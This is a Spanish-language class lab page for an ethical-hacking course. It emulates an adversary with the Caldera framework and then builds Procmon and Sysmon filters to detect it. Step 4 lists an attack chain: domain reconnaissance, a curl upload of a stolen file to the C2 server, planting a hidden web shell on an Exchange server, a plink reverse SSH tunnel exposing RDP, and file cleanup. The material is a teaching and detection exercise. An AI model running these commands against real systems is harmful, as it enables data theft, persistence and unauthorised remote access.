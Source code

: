 ```yaml
---
title: Clase 12 - Caldera Framework & Procmon/Sysmon (Parte 3)
date: 2024-12-05 00:20:00 -0500
categories: [Cybersecurity,Ethical Hacking,Pentesting,Exploitation Techniques]
tags: [Examen Parcial, evaluation]     # TAG names should always be lowercase
---
```


<!-- <hr style="border: none; height: 10px; background-color: #003b00;" />

# <font color="#87CEEB">Examen Parcial.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" /> -->

## Lab Setup

![alt text](/assets/images/caldera-setup.png)

## Pasos

1. Desde el Kali Linux, inicie el servidor Caldera
2. Desde la máquina de Windows, gestionar Caldera. En el `browser`, ingresar a la siguiente dirección:
    ```
    http:/<IP del Kali Linux>:8888
    ```
3. Desplegar un `Agente de Caldera` en la Máquina de Windows. De ser necesario, desactivar el Firewall de Windows.
4. Crear un Adversario de Prueba. Configurar el Adversario con un Skill (Se revisa en clase). Documentación [Link](https://github.com/center-for-threat-informed-defense/adversary_emulation_library)

    ```bash
    cscript /nologo computername.vbs
    cscript /nologo username.vbs
    whoami
    hostname
    ipconfig /all
    net user /domain
    net group /domain
    net group "domain admins" /domain
    net group "Exchange Trusted Subsystem" /domain
    net accounts /domain
    net user
    net localgroup administrators
    netstat -na
    tasklist
    sc query
    systeminfo
    reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"
    net user #{initial.target.user} /domain
    net group "SQL Admins" /domain
    nslookup #{second.target.host}
    C:\Users\#{initial.target.user}\AppData\local\SystemFailureReporter\b.exe
    curl -F "data=@C:\Users\#{initial.target.user}\AppData\Roaming\fsociety.dat" --header "X-Request-ID: #{initial.target.user}-#{paw}" #{server}/file/upload
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\contact.aspx C:\Users\Public\contact.aspx
    copy C:\Users\Public\contact.aspx "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"
    attrib +h "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"
    copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.exe
    exec-background C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw "#{caldera.user.password}" #{caldera.server.ip}
    del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;
    curl -s -H "KEY:#{server.api.key}" -H "Content-Type: application/json" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d "{\"watchdog\":1}"
    ```

5. Crear una Operación de Prueba usando el adversario recientemente creado.
6. Ejecutar la operación.
7. Analizar en Procmon (Python?).
    - Resultado de ejecutar `cscript /nologo computer.vbs`
    ```bash
    ['Process Start' 'Thread Create' 'QueryNetworkOpenInformationFile'
    'QueryIdInformation' 'FileSystemControl' 'QueryNameInformationFile'
    'Load Image' 'CreateFile' 'QueryStandardInformationFile' 'ReadFile'
    'CloseFile' 'RegOpenKey' 'RegQueryValue' 'RegCloseKey'
    'QueryBasicInformationFile' 'CreateFileMapping' 'RegQueryKey'
    'RegSetInfoKey' 'RegCreateKey' 'RegEnumKey' 'RegEnumValue'
    'DeviceIoControl' 'QueryDirectory' 'Thread Exit' 'Process Exit']
    ```

8. Crear y activar el respectivo filtro en Sysmon.

    ```bash
    <Sysmon schemaversion="4.90">
    <EventFiltering>
        
        <!-- Process Creation -->
        <ProcessCreate onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessCreate>
        
        <!-- Process Termination -->
        <ProcessTerminate onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessTerminate>
        
        <!-- Network Connection -->
        <NetworkConnect onmatch="include">
        <Image condition="contains">cscript</Image>
        </NetworkConnect>

        <!-- Thread Creation -->
        <CreateRemoteThread onmatch="include">
        <SourceImage condition="contains">cscript</SourceImage>
        </CreateRemoteThread>

        <!-- Image Load -->
        <ImageLoad onmatch="include">
        <Image condition="contains">cscript</Image>
        </ImageLoad>

        <!-- Registry Events -->
        <RegistryEvent onmatch="include">
        <Image condition="contains">cscript</Image>
        </RegistryEvent>

        <!-- File Creation -->
        <FileCreate onmatch="include">
        <Image condition="contains">cscript</Image>
        </FileCreate>

        <!-- Process Access -->
        <ProcessAccess onmatch="include">
        <Image condition="contains">cscript</Image>
        </ProcessAccess>

    </EventFiltering>
    </Sysmon>
    ```

9. Realizar una nueva operación.
10. Comprobar que Sysmon está filtrando los eventos deseados. Discutiremos problemas encontrados.
11. Analizar los eventos en Procmon y en Sysmon (Event Viewer).
12. Python Coding (Jupyter Notebooks).